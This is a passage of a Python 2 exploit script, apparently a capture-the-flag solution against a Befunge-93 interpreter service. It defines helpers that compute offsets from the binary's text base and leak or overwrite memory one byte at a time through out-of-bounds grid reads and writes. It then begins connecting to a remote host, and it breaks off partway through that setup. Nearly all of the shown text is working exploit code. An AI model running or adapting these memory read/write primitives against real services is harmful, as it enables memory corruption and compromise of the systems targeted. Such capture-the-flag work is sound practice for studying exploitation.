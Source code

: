 ```python
        ret_addr = ret_addr | ((ret&0xff) << 8*cnt)
        cnt += 1

    return ret_addr

def cal_offset(addr, text_base):
    start_from = text_base + 0x202040
    offset = addr - start_from
    off_80 = offset/80
    off_1 = offset%80

    return off_1, off_80

def leak_far_addr(addr, text_base, name):
    ret_addr = 0
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in xrange(off_1, off_1+6):
        print "leaking %s byte : %d" % (name, cnt+1)
        r.sendline(str(i))
        r.sendline(str(temp))
        r.sendline(str(temp))
        ret = int(r.recvuntil(" "))
        ret_addr = ret_addr | ((ret&0xff) << 8*cnt)
        cnt += 1

    return ret_addr

def write_far_addr(addr, text_base, name, value):
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in xrange(off_1, off_1+6):
        v = (value>>(8*cnt)) & 0xff
        print "writing %s byte %d : %x" % (name, cnt+1, v)
        r.sendline(str(v))
        r.sendline(str(i))
        r.sendline(str(temp))
        r.sendline(str(temp))
        cnt += 1

if __name__ == "__main__":
    
    #LOCAL = True
    LOCAL = False
    
    # construct befunge-93 program
    preline = myexec("wc -l ./bbb | awk '{print $1}'")
    preline = int(preline)
    f = open("./bbb", "r")
    s = f.read()
    s += "\n"*(80-preline)
    
    r, LD = None, None
    if not LOCAL:
        r = remote(HOST, PORT)
        LD = ELF("/mnt/files/ld-linux-x86-64.so.2")
    else:
```